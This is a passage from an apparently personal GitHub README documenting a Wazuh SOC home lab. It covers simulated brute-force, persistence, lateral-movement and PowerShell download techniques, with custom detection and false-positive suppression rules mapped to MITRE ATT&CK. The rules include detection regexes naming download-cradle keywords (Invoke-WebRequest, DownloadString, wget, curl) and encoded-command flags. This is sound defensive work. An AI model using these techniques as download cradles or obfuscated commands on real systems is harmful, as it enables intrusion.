<div align="center">

# 🛡️ SOC Home Lab
### Detection Engineering with Wazuh · Mapped to MITRE ATT&CK

*Simulating real attacker techniques, investigating the logs, closing the detection gaps with custom rules, and documenting the evidence — one exercise at a time.*

<br>


<br>

**[📊 Detection Summary](#-detection-summary)** &nbsp;·&nbsp; **[🧪 Exercises](#-contents)** &nbsp;·&nbsp; **[📚 Docs](#-documentation)** &nbsp;·&nbsp; **[🎓 What I Learned](#-what-i-learned)** &nbsp;·&nbsp; **[🚀 Next Steps](#-next-steps)**

</div>

---

## Overview

A hands-on Security Operations Center (SOC) home lab built on VMware Workstation with a Wazuh SIEM, a Windows 11 endpoint running Sysmon, and a Kali Linux attacker. In each exercise I simulate a real attacker technique, investigate the resulting logs, close detection gaps with custom Wazuh rules mapped to MITRE ATT&CK, tune false positives, and document the evidence.

> **At a glance**
> - **18 exercises**, from brute-force detection to defense evasion, crash root-cause analysis, automated response, Linux privilege escalation, PowerShell attack detection, a full incident investigation with a written report, and measured alert tuning
> - **23 custom detection rules** (levels 6 to 15, including an incident correlation rule), **1 response-visibility rule**, **6 false-positive suppression rules**, **4 severity-correction rules** and **1 fixed built-in rule**
> - **MITRE ATT&CK coverage:** T1136.001, T1033, T1547.001, T1053.005, T1021, T1021.001, T1105, T1110.001, T1078, T1565.001, T1070.001, T1548.003, T1003.008, T1059.001, T1027.010, T1140, T1562.002, T1562.001, T1098
> - **Status:** ✅ complete, 18 exercises (October–November 2026). The lab ends with a tuned, documented ruleset; follow-up items are listed under [Next steps](#-next-steps).
> - **Skills:** Windows Event Log and Sysmon analysis, Linux auth log analysis, detection engineering, false-positive tuning with before/after measurement, file integrity monitoring, defense-evasion detection, attack timelines, log-pipeline troubleshooting, crash dump analysis (WinDbg), automated response (Wazuh Active Response), Linux auditd, PowerShell Script Block Logging, auditing built-in detection rules, incident investigation and reporting

## 📚 Documentation

| Document | What it covers |
|---|---|
| 🖥️ [Lab architecture](docs/01-architecture.md) | VMs, network, telemetry pipeline and collection configuration |
| 📊 [Detection rules](docs/02-detection-rules.md) | Every custom rule with its parent, data source and MITRE mapping, plus documented gaps |
| 🎓 [Lessons learned](docs/03-lessons-learned.md) | What broke, what misled me, and what I do differently now |
| 🎚️ [Alert tuning](docs/04-tuning.md) | Tuning method, every tuning rule with its proof, before/after measurement and what was deliberately not tuned (Exercise 18) |
| 🧾 [Playbooks](playbooks/) | Investigation checklists for the alerts this lab produces |
| ⚙️ [Rules](rules/) | The deployable `local_rules.xml` running on the Wazuh manager |
| 📄 [Incident report IR-01](docs/incident-report-01.md) | Full intrusion (Exercise 17): timeline, IOCs, root cause, detection coverage, response, recommendations |
| 🛡️ [Config](config/) | Active Response, auditd (tuned in Exercise 18) and PowerShell log collection configuration |
| 📈 [TryHackMe progress](docs/tryhackme-progress.md) | Rooms completed and how they connect to the lab |

<details>
<summary><b>Repository structure</b></summary>
<br>

```
SOC-Home-Lab/
├── README.md                 Overview, detection summary and all exercises
├── docs/
│   ├── 01-architecture.md
│   ├── 02-detection-rules.md
│   ├── 03-lessons-learned.md
│   ├── 04-tuning.md          Exercise 18 alert tuning
│   ├── incident-report-01.md  Exercise 17 incident report
│   ├── evidence/             Alert timeline behind the report, Exercise 18 alert counts
│   └── tryhackme-progress.md
├── rules/
│   └── local_rules.xml       Custom Wazuh rules (deployable)
├── config/
│   ├── README.md             What each file is and where it goes
│   ├── active-response.xml   Active Response blocks from ossec.conf
│   ├── auditd-wazuh-lab.rules  Linux audit rules (Exercise 15, tuned in Exercise 18)
│   ├── auditd-localfile.xml   audit.log input for Wazuh
│   └── powershell-localfile.xml  PowerShell 4104 input for the agent (Exercise 16)
├── playbooks/                PB-01 … PB-08 investigation checklists
└── screenshots/
    └── Exercise-01 … Exercise-18
```

</details>

## 📑 Contents

- [Documentation](#-documentation)
- [Lab architecture](#-lab-architecture)
- [Detection summary](#-detection-summary)
- [Exercise 1: Windows Logon Brute Force](#exercise-1-windows-logon-brute-force)
- [Exercise 2: New Admin Account and Privilege Escalation](#exercise-2-new-admin-account-and-privilege-escalation)
- [Exercise 3: SSH Brute Force from Kali](#exercise-3-ssh-brute-force-from-kali)
- [Exercise 4: First Custom Detection Rule](#exercise-4-first-custom-detection-rule)
- [Exercise 5: Sysmon Telemetry and Recon Detection](#exercise-5-sysmon-telemetry-and-recon-detection)
- [Exercise 6: Persistence Detection](#exercise-6-persistence-detection)
- [Exercise 7: Attack Timeline and Alert Triage](#exercise-7-attack-timeline-and-alert-triage)
- [Exercise 8: Lateral Movement, Tool Transfer and Alert Tuning](#exercise-8-lateral-movement-tool-transfer-and-alert-tuning)
- [Exercise 9: Linux SSH Brute Force and Successful Login](#exercise-9-linux-ssh-brute-force-and-successful-login)
- [Exercise 10: File Integrity Monitoring and Startup Persistence](#exercise-10-file-integrity-monitoring-and-startup-persistence)
- [Exercise 11: Defense Evasion and Endpoint Health](#exercise-11-defense-evasion-and-endpoint-health)
- [Exercise 12: Endpoint Stability Troubleshooting](#exercise-12-endpoint-stability-troubleshooting-0x124-whea-crash)
- [Exercise 13: RDP Brute Force and Successful Remote Logon](#exercise-13-rdp-brute-force-and-successful-remote-logon)
- [Exercise 14: Automated Response with Wazuh Active Response](#exercise-14-automated-response-with-wazuh-active-response)
- [Exercise 15: Linux Privilege Escalation Visibility with auditd](#exercise-15-linux-privilege-escalation-visibility-with-auditd)
- [Exercise 16: PowerShell Attacks – Script Block Logging and Encoded Commands](#exercise-16-powershell-attacks--script-block-logging-and-encoded-commands)
- [Exercise 17: Full Attack Chain Investigation and Incident Report](#exercise-17-full-attack-chain-investigation-and-incident-report)
- [Exercise 18: Alert Tuning – Less Noise Without Blind Spots](#exercise-18-alert-tuning--less-noise-without-blind-spots)
- [What I learned](#-what-i-learned)
- [Next steps](#-next-steps)

## 🖥️ Lab architecture

| Role | Machine | IP / detail |
|---|---|---|
| Attacker | Kali Linux | 10.10.10.130 |
| Victim | Windows 11 Enterprise (agent: win11-victim) + Sysmon | 10.10.10.0/24 (DHCP) |
| SIEM | Wazuh on Ubuntu Server | 10.10.10.10 |



Isolated NAT network 10.10.10.0/24. Dashboard: `https://10.10.10.10`. Full details: [docs/01-architecture.md](docs/01-architecture.md)

**Tools:** VMware Workstation Pro, Wazuh 4.x (SIEM/XDR), Sysmon (SwiftOnSecurity config), Kali Linux (nmap, hydra, netexec), PowerShell, Git

## 📊 Detection summary

| Rule | Exercise | Detects | MITRE ATT&CK | Level |
|---|---|---|---|---|
| 100100 | 4 | New Windows user created | T1136.001 Local Account | 12 |
| 100200 | 5 | `whoami` executed | T1033 System Owner/User Discovery | 10 |
| 100300 | 6, 17 | Registry Run / RunOnce key modified by any process (fixed in Exercise 17) | T1547.001 Run Keys / Startup Folder | 12 |
| 100400 | 6 | Scheduled task created | T1053.005 Scheduled Task | 12 |
| 100500 | 8 | Network logon (type 3) | T1021 Remote Services | 12 |
| 100600 | 8 | PowerShell web download | T1105 Ingress Tool Transfer | 12 |
| 100700 | 8 | Suppress: PowerShell policy-test file (benign) | n/a | 0 |
| 100710 | 8, 18 | Suppress: `sdbinst -m -bg` run by PcaSvc (benign); regex fixed in Exercise 18, it had never matched | n/a | 0 |
| 100800 | 9 | SSH brute force that succeeded | T1110.001, T1078 | 14 |
| 100900 | 10 | Sensitive Finance file modified or deleted | T1565.001 Stored Data Manipulation | 10 |
| 100910 | 10 | File added to a Windows Startup folder | T1547.001 Run Keys / Startup Folder | 12 |
| 100930 | 11 | Windows event log cleared | T1070.001 Clear Windows Event Logs | 12 |
| 101000 | 13 | RDP remote interactive logon (type 10) | T1021.001 Remote Desktop Protocol | 6 |
| 101010 | 13 | RDP brute force that succeeded | T1110.001, T1021.001, T1078 | 14 |
| 101020 | 17 | RDP login after failed logons from the same IP (below the 8-failure threshold) | T1110.001, T1021.001, T1078 | 12 |
| 101100 | 14 | Attacker IP auto-blocked by Active Response (raises built-in 651) | n/a (response) | 8 |
| 101200 | 15 | sudo run by a non-admin login user (auditd) | T1548.003 Sudo and Sudo Caching | 10 |
| 101210 | 15 | /etc/shadow read attempt by a login user (auditd) | T1003.008 /etc/passwd and /etc/shadow | 12 |
| 101220 | 15 | Sudoers file created, modified, chmod or deleted (auditd) | T1548.003 Sudo and Sudo Caching | 12 |
| 101300 | 16 | Encoded PowerShell command (`-e`, `-ec`, `-enc`, `-EncodedCommand`), any parent | T1059.001 PowerShell, T1027.010 Command Obfuscation | 12 |
| 101310 | 16 | PowerShell download cradle in a script block (Event 4104) | T1059.001, T1105 Ingress Tool Transfer | 12 |
| 101315 | 16 | Full-spelling `Invoke-Expression` in a script block (built-in 91837 has a typo) | T1059.001 PowerShell | 8 |
| 101320 | 16 | Run-time decoding or code rebuilding (FromBase64String, `[char[]]`, `-bxor`, string concatenation) | T1027.010, T1140 Deobfuscate/Decode | 10 |
| 101330 | 16 | PowerShell Script Block Logging disabled or removed | T1562.002 Disable Windows Event Logging | 12 |
| 101400 | 17 | **Incident:** persistence within 1 hour of a successful RDP password-guessing login | T1110.001, T1547.001, T1053.005, T1136.001 | 15 |
| 101550 | 18 | Wazuh agent stopped (raises built-in 506 from level 3) | T1562.001 Disable or Modify Tools | 12 |

**Tuning rules (Exercise 18).** Each one matches a single, verified benign pattern under its parent, so the parent still fires for everything else:

| Rule | Parent | Benign pattern | Level |
|---|---|---|---|
| 101500 | 92219 (L6) | `svchost.exe` writing Windows Update DLLs in `SoftwareDistribution\Download` / `SystemTemp` | 0 |
| 101510 | 92217 (L6) | `svchost.exe` dropping a Defender update executable in the same folders | 0 |
| 101520 | 92213 (L15) | `msedge.exe` unpacking its own component into Temp | 0 |
| 101530 | 91816 | The Wazuh agent's own SCA `secedit` script block, anchored to the exact line | 0 |
| 101540 | 61632 (L12) | `smss.exe` starting a logon session for `winlogon.exe` | 3 |
| 101560 | 100300 (L12) | `msedge.exe` writing its own `MicrosoftEdgeAutoLaunch_<32 hex>` Run value | 3 |
| 101570 | 61618 (L12) | `svchost.exe -k osprivacy -p -s camsvc` at logon | 3 |
| 101580 | 61634 (L12) | `backgroundTaskHost.exe -ServerName:<app id>` at logon | 3 |
| 91823 | built-in, overwritten | `Invoke-Command` remote rule: `Cn` now only as the `-Cn` / `-ComputerName` parameter, not inside any word | 14 |

Full rule details, MITRE coverage and documented visibility gaps: [docs/02-detection-rules.md](docs/02-detection-rules.md). Deployable rule file: [rules/local_rules.xml](rules/local_rules.xml). Investigation steps for these alerts: [playbooks/](playbooks/).

Screenshots for every exercise are in [`screenshots/`](screenshots/), one folder per exercise. Click any image to open it full size.

---

## Exercise 1: Windows Logon Brute Force

**Scenario:** Generated repeated failed logons on the Windows endpoint (Event ID 4625).

**Detection:** Wazuh recorded 5 failures with rule 60122 "Logon Failure - Unknown user or bad password", level 5.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-01/EX1-Failed-Logins-4625.png"></a><br><sub>Failed logons in Wazuh</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-01/EX1-Failed-Events-4625%20close-up.png"></a><br><sub>Failed logon event detail</sub></td>
  </tr>
</table>

---

## Exercise 2: New Admin Account and Privilege Escalation

**Scenario:** Created a hidden "backdoor" user and added it to the Administrators group.

**Detection:**
- Event 4720, user account created (MITRE: Account Manipulation)
- Event 4732, Administrators group changed, rule 60154, level 12

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-02/EX2-Hidden-Admin-4720.png"></a><br><sub>New admin user created (4720)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-02/EX2-Admin-Group-4732.png"></a><br><sub>Administrators group changed (4732)</sub></td>
  </tr>
</table>

---

## Exercise 3: SSH Brute Force from Kali

**Scenario:** Scanned the network with nmap and ran hydra against the Wazuh server's SSH service.

**Detection:** rule 5503 "PAM: User login failed", level 5, MITRE ATT&CK T1110.001 Password Guessing.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-03/EX3-Wazuh%20Dashboard.png"></a><br><sub>SSH brute force on the dashboard</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-03/EX3-event%20detail-1.png"></a><br><sub>Event detail: source IP</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-03/EX3-event%20detail-2.png"></a><br><sub>Event detail: rule and MITRE</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-03/EX3-hydra%20attack.png"></a><br><sub>hydra attack from Kali</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (1)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-03/EX3-nmap%20scan.png"></a><br><sub>nmap scan from Kali</sub></td>
  </tr>
</table>

</details>

---

## Exercise 4: First Custom Detection Rule

**Goal:** Flag new Windows user creation as a possible backdoor, at high severity.

**Custom rule 100100:** level 12, triggers on Event ID 4720, MITRE ATT&CK T1136.001 (Create Account: Local Account).

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-04/EX4-Custom-rule-dashboard.png"></a><br><sub>Rule 100100 on the dashboard</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-04/EX4-Custom-rule-event-2.png"></a><br><sub>Rule 100100 event detail</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (2)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-04/EX4-Custom-rule-event.png"></a><br><sub>Rule 100100 event</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-04/EX4-Custom-rule-event-1.png"></a><br><sub>Rule 100100 event (continued)</sub></td>
  </tr>
</table>

</details>

---

## Exercise 5: Sysmon Telemetry and Recon Detection

**Scenario:** Applied the SwiftOnSecurity Sysmon configuration on the Windows endpoint, forwarded the Sysmon log to Wazuh, and simulated attacker reconnaissance (`whoami`, `whoami /priv`, `ipconfig /all`, `net user`).

**Findings:**
- Sysmon Event ID 1 (process creation) collected by Wazuh
- `net user` was caught by built-in rule 92031 (Discovery activity, level 3)
- `whoami` was logged by Sysmon but produced **no Wazuh alert**: a detection gap

**Custom rule 100200:** level 10 on `whoami.exe` execution, MITRE ATT&CK T1033.

```xml
<group name="local,sysmon,windows,">
<rule id="100200" level="10">
<if_group>sysmon_event1</if_group>
<field name="win.eventdata.image">whoami.exe</field>
<description>Custom SOC rule: whoami executed - possible host reconnaissance</description>
<mitre>
<id>T1033</id>
</mitre>
</rule>
</group>
```

**Troubleshooting:** after adding the rule, wazuh-manager failed to start (systemd timeout). I validated the rules with `wazuh-analysisd -t` (no errors), found stuck processes in the service status, cleared them with `wazuh-control stop`, and the manager started successfully.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-recon-commands.png"></a><br><sub>Recon commands on the victim</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-rule-100200-dashboard.png"></a><br><sub>Custom rule 100200 firing</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-rule-100200-event.png"></a><br><sub>whoami event detail</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-net-user-event.png"></a><br><sub>net user caught by built-in rule 92031</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (5)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-sysmon-eventviewer.png"></a><br><sub>Sysmon log in Event Viewer</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-sysmon-events.png"></a><br><sub>Sysmon events in Wazuh</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-sysmon-events-list.png"></a><br><sub>Sysmon events list</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-sysmon-event1-detail.png"></a><br><sub>Sysmon Event 1 detail</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-05/EX5-rule-100200-details.png"></a><br><sub>Rule 100200 details</sub></td>
  </tr>
</table>

</details>

---

## Exercise 6: Persistence Detection

**Scenario:** Simulated two common persistence techniques on the Windows endpoint and wrote a custom rule for each, using Sysmon telemetry.

| Technique | Telemetry | Built-in result | Custom rule |
|---|---|---|---|
| Registry Run key (fake "Updater" value under `HKCU\...\CurrentVersion\Run`) | Sysmon Event 13 | Rule 92302, level 6 | **100300**, level 12, T1547.001 |
| Scheduled task (fake "WindowsUpdateCheck" via `schtasks`) | Sysmon Event 1 | **No alert** (gap) | **100400**, level 12, T1053.005 |

**Notes:**
- The registry path is backslash-escaped in Wazuh's JSON, so the regex needed `CurrentVersion\\+Run` to match.
- Rule 100400 needs two conditions (`schtasks.exe` AND `/create`) to avoid false positives.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-rule-100300-dashboard.png"></a><br><sub>Run key rule 100300 firing</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-rule-100400-dashboard.png"></a><br><sub>Scheduled task rule 100400 firing</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (8)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-runkey-attack.png"></a><br><sub>Run key created on the victim</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-runkey-builtin.png"></a><br><sub>Built-in rule for the Run key</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-rule-100300-event.png"></a><br><sub>Rule 100300 event detail</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-rule-100300-event-2.png"></a><br><sub>Rule 100300 event detail (continued)</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-schtask-attack.png"></a><br><sub>Scheduled task created on the victim</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-schtask-sysmon.png"></a><br><sub>Scheduled task in Sysmon (no built-in alert)</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-rule-100400-event.png"></a><br><sub>Rule 100400 event detail</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-06/EX6-rule-100400-event-2.png"></a><br><sub>Rule 100400 event detail (continued)</sub></td>
  </tr>
</table>

</details>

---

## Exercise 7: Attack Timeline and Alert Triage

**Attack timeline:** ran a short chain (recon, new local account, Run key, scheduled task) and filtered Wazuh to level 10+ alerts on the victim. The custom rules turn the serious steps into a readable story, oldest first.

**Alert triage:** investigated three unexpected built-in alerts and documented a verdict for each:
- Two **false positives**: a PowerShell execution-policy test file (rule 92213) and a Windows compatibility-database task run by the system (rule 92058)
- One **true-positive activity** whose built-in rule description was misleading

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-attack-timeline.png"></a><br><sub>Attack timeline (level 10+)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-attack-chain.png"></a><br><sub>Attack chain on the victim</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (8)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-fp-92213.png"></a><br><sub>False positive: rule 92213</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-fp-92213-2.png"></a><br><sub>Rule 92213 detail</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-fp-92058.png"></a><br><sub>False positive: rule 92058</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-fp-92058-2.png"></a><br><sub>Rule 92058 detail</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-alert-92041.png"></a><br><sub>Rule 92041 alert</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-alert-92041-2.png"></a><br><sub>Rule 92041 detail</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-rule-92041-regex.png"></a><br><sub>Rule 92041 logic</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-07/EX7-cleanup.png"></a><br><sub>Cleanup</sub></td>
  </tr>
</table>

</details>

---

## Exercise 8: Lateral Movement, Tool Transfer and Alert Tuning

Two new attack detections from the Kali attacker, tuning out the false positives found earlier, and a real troubleshooting case where alerts went missing.

### 8.1 Lateral movement over SMB (T1021)

**Attack:** from SOC-Kali (10.10.10.130) I used `netexec` (nxc) to authenticate to SOC-Win11 over SMB (port 445) with valid credentials for `socadmin`.

**What Windows logged:** Event ID **4624** (successful logon) with **Logon Type 3** (network logon) and the Kali IP as the source address.

**Detection:** built-in rule 92657 fired but did not clearly flag lateral movement. Custom child rule 100500 raises network logons to level 12 and maps them to MITRE ATT&CK:

```xml
<rule id="100500" level="12">
  <if_sid>92657</if_sid>
  <field name="win.eventdata.logonType">^3$</field>
  <description>Custom SOC rule: network logon (type 3) - possible lateral movement</description>
  <mitre>
    <id>T1021</id>
  </mitre>
</rule>
```

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-kali-login-success.png"></a><br><sub>Successful SMB login from Kali</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-rule-100500-dashboard.png"></a><br><sub>Custom rule 100500 firing</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (5)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-kali-bruteforce.png"></a><br><sub>SMB authentication attempts from Kali</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-4624-rule92657.png"></a><br><sub>Event 4624 caught by built-in rule 92657</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-wazuh-remote-logon.png"></a><br><sub>Remote logon in Wazuh</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-rule-100500-event.png"></a><br><sub>Rule 100500 event detail</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-rule-100500-ipaddress.png"></a><br><sub>Source IP of the attacker</sub></td>
  </tr>
</table>

</details>

### 8.2 PowerShell web download (T1105)

**Attack:** used `Invoke-WebRequest` on the victim to download a file, simulating an attacker pulling tools onto a compromised host.

**What Sysmon logged:** Event ID **1** (process creation, with the full command line) and Event ID **3** (network connection).

**Detection gap:** built-in rule 92027 only alerted at **level 4**, easy to miss in a busy SOC. Rule 100600 raises it to level 12.

**Lesson learned:** my first version used `<if_group>sysmon_event1</if_group>` and never fired. Wazuh evaluates rules as a tree: once an event matches 92027, only children of 92027 are checked. Changing the parent to `<if_sid>92027</if_sid>` fixed it.

```xml
<rule id="100600" level="12">
  <if_sid>92027</if_sid>
  <field name="win.eventdata.image" type="pcre2">(?i)powershell\.exe$</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)(Invoke-WebRequest|iwr|DownloadString|DownloadFile|wget|curl)</field>
  <description>Custom SOC rule: Powershell web download - possible tool transfer</description>
  <mitre>
    <id>T1105</id>
  </mitre>
</rule>
```

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-ps-download-attack.png"></a><br><sub>PowerShell download on the victim</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-rule-100600-dashboard.png"></a><br><sub>Custom rule 100600 firing</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (4)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-ps-download-sysmon-1.png"></a><br><sub>Sysmon Event 1: process creation</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-ps-download-sysmon-3.png"></a><br><sub>Sysmon Event 3: network connection</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-rule-100600-event-1.png"></a><br><sub>Rule 100600 event detail</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-rule-100600-event-2.png"></a><br><sub>Rule 100600 event detail (continued)</sub></td>
  </tr>
</table>

</details>

### 8.3 Tuning false positives

Two built-in rules kept firing on normal Windows activity:

| Rule | Level | Benign cause |
|---|---|---|
| 92213 "Executable file dropped in folder commonly used by malware" | 15 | PowerShell creates a temporary `__PSScriptPolicyTest_*.ps1` file every time it starts, to check execution policy |
| 92058 "Application Compatibility Database launched" | 12 | Windows' Program Compatibility Assistant service (svchost.exe `-s PcaSvc`) runs `sdbinst.exe -m -bg` as routine maintenance |

**Approach:** before suppressing anything, I opened each alert and checked the exact field values (file name, image, command line, parent process). Not every 92213 alert was the PowerShell test file, so a broad suppression would have hidden real activity. I wrote **level 0 child rules** (level 0 = no alert) that only match the exact benign pattern:

```xml
<rule id="100700" level="0">
  <if_sid>92213</if_sid>
  <field name="win.eventdata.image" type="pcre2">(?i)\\(powershell|pwsh)\.exe$</field>
  <field name="win.eventdata.targetFilename" type="pcre2">(?i)\\__PSScriptPolicyTest_[a-z0-9]+\.[a-z0-9]+\.ps1$</field>
  <description>Suppressed FP: PowerShell execution policy test file (benign)</description>
</rule>

<rule id="100710" level="0">
  <if_sid>92058</if_sid>
  <field name="win.eventdata.image" type="pcre2">(?i)^C:\\Windows\\System32\\sdbinst\.exe$</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)sdbinst\.exe"?\s+-m\s+-bg\s*$</field>
  <field name="win.eventdata.parentImage" type="pcre2">(?i)^C:\\Windows\\System32\\svchost\.exe$</field>
  <description>Suppressed FP: sdbinst -m -bg run by PcaSvc (benign)</description>
</rule>
```

**Why these are narrow:**
- 100700 requires **both** the PowerShell process **and** the exact test-file name pattern. Malware dropping a file with that name from another process still alerts.
- 100710 requires the exact command line **and** svchost.exe as the parent. `sdbinst` is a known persistence technique (T1546.011), so running it any other way must still alert.

| Test | Expected | Result |
|---|---|---|
| Opened PowerShell several times | No 92213 alerts | 14 `__PSScriptPolicyTest` events reached the manager, **0 alerts** |
| Ran `sdbinst.exe -m -bg` from an admin PowerShell (negative test) | 92058 still alerts | **92058 fired at level 12** |

The negative test matters: it proves the suppression did not create a blind spot.

> **Update (Exercise 18):** 100710 never had a positive test, and it never worked. Its anchored paths used a single `\\`, but Wazuh stores Windows paths with doubled backslashes, so the benign 92058 kept firing at level 12 in every later measurement. Fixed in [Exercise 18](#186-a-rule-that-never-fired-100710). Lesson: a suppression needs a positive test too, not only a negative one.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-14-FP-alerts-before.png"></a><br><sub>False positive alerts before tuning</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-16-FP-suppressed-proof.png"></a><br><sub>False positives suppressed</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (2)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-15-rules-loaded.png"></a><br><sub>Rules loaded without errors</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-08/EX8-17-sdbinst-still-alerts.png"></a><br><sub>Negative test: sdbinst from PowerShell still alerts</sub></td>
  </tr>
</table>

</details>

### 8.4 Investigation: "no alerts" does not mean "no activity"

During the negative test, the expected 92058 alert never appeared. Instead of assuming my rule was wrong, I worked through the log pipeline step by step:

1. **Endpoint:** queried Sysmon directly on SOC-Win11 with `Get-WinEvent`. The `sdbinst` process creation **was** logged, so Sysmon was fine.
2. **Rule logic:** read built-in rule 92058 in `/var/ossec/ruleset/rules/0800-sysmon_id_1.xml`. It should have matched.
3. **Manager:** temporarily enabled `logall_json` to archive every event received. The archive contained **zero** Windows EventChannel events from the agent, only SCA and rootcheck data.
4. **Root cause:** the Wazuh agent service on the victim had stopped after a failed restart. The manager still showed it as Active for a while, but no Windows logs were being collected.
5. **Fix:** started the agent service again, confirmed in the agent log that it was reading the Security, System and Sysmon channels, confirmed events were arriving in the archive, and re-ran both tests.

My first "suppression works" result was therefore not valid evidence, because no events were arriving at that time. I repeated the test after the fix to get real proof.

I also found that the vulnerability detection module was repeatedly crashing `wazuh-modulesd` (feed download failure), which made the dashboard lose its API connection. It is disabled in this lab since it is not needed for attack detection. Verification during the outage was done over SSH using `alerts.json` and `archives.json`.

**Key takeaway:** before trusting the absence of alerts, confirm that the logs are actually reaching the SIEM.

### 8.5 Attack timeline

